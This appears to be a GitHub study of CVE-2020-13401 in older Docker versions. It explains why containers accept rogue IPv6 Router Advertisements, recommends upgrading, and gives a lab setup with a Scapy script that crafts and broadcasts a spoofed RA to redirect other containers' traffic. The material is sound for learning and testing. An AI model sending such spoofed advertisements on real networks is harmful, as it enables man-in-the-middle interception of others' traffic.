 # CVE-2020-13401 Study
_Study on CVE-2020-13401 vulnerability of containers in dockers older than 19.03.11_

Containers that are created with Docker Engine versions before 19.03.11 are vulnerable to receive and apply fake RA (Router Advertisement) messages from other containers in the network. Receiving RAs is a normal behavior of operating system, but if the RA sender is not trusted in the network, the victim container can receive the message and join the netwok and then send all network packets to the new fake router (_man-in-the-middle attack_). This issue is not related to IPv4 and it is based on IPv6. 

Original CVE Item Source: [CVE-2020-13401](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13401)

## Why it happens?
In the Docker Engines older than 19.03.11 containers accept RA messages _by default_. Consider there's another container in the network with `CAP_NET_RAW` capability. It means that this container can create any network packets and send to the network. So, this container can be used as a packet crafting source. In newer versions, containers don't accept RA messages unless this feature is enabled on docker engine. So, the system might still be vulnerable if an administrator decides to enable this feature. 

## Solution
It is highly recommended to update Docker Engine to protect your containers environment against this vulnerability. 

## Simulating the Vulnerability
In this study I want to demonstrate how this vulnerability happens and see how our container is affected by RA message

## Requirements
- Docker Engine before 19.03.11
- Ubuntu Docker Images 
- IPv6 Enabled on Host Machine
- Docker Engine Configured for IPv6 Functionality
- IP Spoofing Tool _Scapy_   

In running containers, I tested to verify if IPv6 is working. But I found that there’s no IPv6 supported by default in my container. By default, all docker containers are connected to a `bridge` network and this network does not support IPv6. To enable IPv6 for docker it is required to add a `daemon.json` file to the path `/etc/docker/`. Contents of this file should be as follows:

```sh
{  "ipv6": true, "fixed-cidr-v6": "fd00::/80" }
```

It is possible to assign any valid IPv6 subnet address. Then docker should be restarted and read the daemon file again from scratch to configure its default bridge network. Also, it is possible to define a new network for supporting IPv6.   

Commands to reload the configuration and restart the docker: 
- `$ sudo systemctl daemon-reload`
- `$ sudo systemctl restart docker`

## Creating Containers 
So far we have a Docker that supports IPv6 and it's time to create the containers to start the simulation. We need atleast 2 containers. I call them `Ubuntu_1` and `Ubuntu_2`. On your host machine use the following commands to create your containers: 

```sh
$ docker pull ubuntu

$ docker run --name ubuntu_1 -i -t ubuntu bash 

$ docker run --name ubuntu_2 -i -t ubuntu bash 
```

List your containers usng this command: 

```sh
$ docker container ls -a
```
Use your container names to run them: 

```sh 
$ docker container start -ai [CONTAINER NAME]
```

On both containers you need some basic tools such as:

| Tool | Install Command |
| ------ | ------ |
| nano (or any other editor) | apt-get install nano |
| net-tools | apt-get install net-tools |
| hping3 | apt-get install hping3 | 
| tcpdump | apt-get install tcpdump |
| scapy | apt install python3-scapy _(only intall on 1 container)_|

Install the required tools and verify if the your containers are connected. To do so, get your container IP and interfaces information using `ifconfig` command. Then `ping -6 [destination IPv6]` the other container to make sure they are connected. Also, you can use the `tcpdump` on your destination container to see the receiving ping packets. 
_(Make sure you are using IPv6 to ping the containers)_

## Main Objective:
We want to send a crafted RA message from one of the containers in the network and update the IpTable of the victims. 


## Creating RA Message Using Scapy
I am using _SCAPY_ to create IPv6 router advertisement messages. Scapy is based on Python. The installation steps are as follows:  

- Install Python (ubuntu 20.04 is shipped with python already installed and I’ll update it only) 
- Install Scapy `$ sudo apt install python3-scapy` 

RA packet is a broadcast packet, and it means it should deliver to all network nodes. Also, it is based on IPv6 rules. So, the destination address is `ff01::1` and the protocol is based on `ICMPv6`.

Run Scapy: 

`$ scapy`

I use these commands to craft and send the packet to the network: 

```sh
a = IPv6()            

a.dst = "ff02::1" 

a.display() 

b = ICMPv6ND_RA() 

b.display()  

c = ICMPv6NDOptSrcLLAddr() 

c.lladdr = "02:42:ac:11:00:02" 

c.display() 

d = ICMPv6NDOptMTU() 

d.display() 

e = ICMPv6NDOptPrefixInfo() 

e.prefixlen = 64  

e.prefix = "d00d::" 

e.display()  

send(a/b/c/d/e) 
```

After sending the packet, go to the other containers and use `ifconfig` again. You will see that your IPTable is updated after receiving the RA messages. 

## My Docker Images
You can pull my customized docker images to test and study this issue: 
[My Customized Docker Images](https://hub.docker.com/r/zaeimidocker/containers_vulnerability_study/tags?page=1&ordering=last_updated)



